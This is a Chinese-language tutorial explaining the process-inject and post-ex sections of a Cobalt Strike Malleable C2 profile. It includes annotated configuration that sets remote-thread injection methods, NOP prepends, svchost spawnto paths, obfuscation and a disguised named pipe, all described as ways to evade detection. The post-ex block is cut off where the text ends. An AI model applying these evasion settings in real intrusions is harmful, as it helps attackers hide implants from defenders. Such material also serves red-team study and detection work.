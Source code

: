 ### **process-inject**标签

process-inject标签是用于控制 Beacon 在注入到远程进程时的行为。在进行攻击时，攻击者可能会尝试将 Beacon 注入到一个正在运行的进程中以实现持久化和隐藏  
以下代码是Cobalt Strike配置中进程注入部分的设置，定义了Cobalt Strike如何在远程进程中注入和执行代码。

- 设置使用VirtualAllocEx函数为远程进程分配内存
- 内存分配的最小值设为7814字节
- 指定新分配的内存区域不应该具有读、写和执行（RWX）权限
- 允许在分配和写入载荷之前，内存区域具有读、写和执行（RWX）权限
- 在注入的代码前添加了几个NOP（无操作）指令，避免某些防御机制的检测
- 定义了多种在远程进程中执行代码的方法，提供进程注入的灵活性，更难被防御措施检测
    
    ```json
    process-inject {
    // 设置远程内存分配技术
    set allocator "VirtualAllocEx";
    
    // 形状注入内容和属性
    set min_alloc "7814";  //# 设置内存分配的最小值为7814字节
    set userwx    "false";  // 分配的内存不应具有读、写和执行（RWX）权限
    set startrwx "false";  // 注入代码前，内存不应被设置为具有读、写和执行（RWX）权限
    
    transform-x86 {
        // 在注入的代码前添加 NOP （无操作）指令
        prepend "\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90"; // NOP, NOP!
    }
    
    transform-x64 {
        // 在注入的代码前添加 NOP （无操作）指令
        prepend "\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90"; // NOP, NOP!
    }
    
    // 指定在远程进程中执行代码的方法
    execute {
        CreateThread "ntdll.dll!RtlUserThreadStart+0x2285";  // 使用CreateThread函数执行代码
        NtQueueApcThread-s;  // 使用NtQueueApcThread-s函数执行代码
        SetThreadContext;  // 使用SetThreadContext函数执行代码
        CreateRemoteThread;  // 使用CreateRemoteThread函数执行代码
        CreateRemoteThread "kernel32.dll!LoadLibraryA+0x1000";  // 使用CreateRemoteThread函数并偏移执行代码
        RtlCreateUserThread;  // 使用RtlCreateUserThread函数执行代码
    }
    }
    ```

### **post-ex**标签

在Cobalt Strike的Beacon payload中是用来配置后期执行（post-exploitation）阶段的一些参数。这些参数主要影响和控制如何创建新的进程、怎样注入和执行代码、如何混淆和隐藏行为以及如何收集和传输数据等。

攻击者在拥有目标系统的访问权限后，通常需要进行一系列的后期执行活动，这些活动需要对目标系统进行一系列复杂的操作，如创建和管理新的进程、注入和执行代码、使用不同的通信方式来传输数据等。post-ex标签就是用来配置和控制这些操作的一系列参数。

```json
post-ex {
    // 控制我们产生的临时进程。Beacon将产生一个临时进程，将shellcode注入其中，并让新的进程执行这个shellcode。
    set spawnto_x86 "%windir%\\\\syswow64\\\\svchost.exe"; // 对于32位payloads
    set spawnto_x64 "%windir%\\\\sysnative\\\\svchost.exe"; // 对于64位payloads

    // 改变我们的post-ex DLLs的权限和内容。此设置启用对Beacon用于post-ex任务的DLLs(如键盘记录或令牌操作)的混淆。
    set obfuscate "true";

    // 更改我们的post-ex输出命名管道名称。此设置允许控制Beacon用于从作业中检索输出的命名管道。
    set pipename "srvsvc-1-5-5-0####";

    // 将关键函数指针从Beacon传递到其子作业。启用smart注入将使Beacon将带有关键函数指针的数据结构传递给其post-ex作业。
    set smartinject "true";

```